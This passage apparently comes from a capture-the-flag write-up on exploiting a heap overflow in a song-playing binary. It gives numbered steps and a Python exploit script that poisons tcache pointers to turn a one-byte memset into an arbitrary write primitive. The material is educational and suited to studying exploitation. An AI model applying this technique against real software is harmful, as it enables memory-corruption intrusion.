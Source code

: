 ```
tcache:
bin 0x20  -> A -> B -> E
bin 0x310 -> C -> D -> F
```

Now we:
1. Overwrite chunks `B` and `C` by overflowing  `A` by allocating it for song #44
2. Do the same thing as before to get a new STDIN read, using our 1 byte memset to make  `songs[0].fd = 0` . 
3. Then we allocate a chunk of size 0x310 to pop `C` from the tcache. 
4.  Once done, we play song[0] i.e. song #1, which will read from stdin. We tell it that we want a chunk of size 0x310 by inputting the same byte size as `Rainbow/godzilla.txt` which is `"767"`. 
4. Then the heap manager returns us a chunk at `0x4040c8` from its 0x310 tcache bin, and we're in business. 

```python

# 1. 
play_song("44")
p.sendline("-1")
chunkA = p64(0x00) * 2 # Fills chunk A nullbytes
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) + p64(0x00) # Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkC = p64(0x00) + p64(0x311) + p64(0x4040c8) # Overwrites chunk C tcache ptr w/ addr of song[1].lyrics
p.send(chunkA + chunkB + chunkC) # Send payload

# tcache bin 0x20  -> B -> 0x404078 (songs[0].fd)
# tcache bin 0x310 -> C -> 0x4040c8 (songs[1].lyrics)

# 2. 
play_song("17") # Play song of size 0 to pop B from tcache
play_song("18") # Play song of size 0 to pop 0x404078 from tcache 
                # and memset songs[0].fd to 0 
# 3.
play_song("27") # Play song of size 767 to popC from tcache

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> 0x404c8 (songs[1].lyrics)

# 4. and 5.
play_song("1") # Reads from STDIN, songs[0] = song #1
p.sendline("767") # Gives us 0x04040c8 from tcache
```

Whereas with `songs[0].fd` we could only memset one tiny byte of the `songs` array, we can write 767 bytes, which is more than enough to overwrite multiple file descriptors with null bytes.
 
## We can now "Blah Blah Blah" anywhere in address space
__We now have an arbitrary write ability.__ We can use these corrupted songs to read from STDIN into any address we want, by repeating our tactics.
